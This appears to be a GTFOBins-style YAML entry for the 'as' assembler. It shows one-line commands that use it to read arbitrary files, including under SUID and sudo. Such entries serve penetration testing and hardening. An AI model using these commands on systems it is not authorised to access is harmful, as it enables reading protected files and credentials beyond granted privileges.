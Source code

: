 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        as @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./as @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo as @$LFILE
---
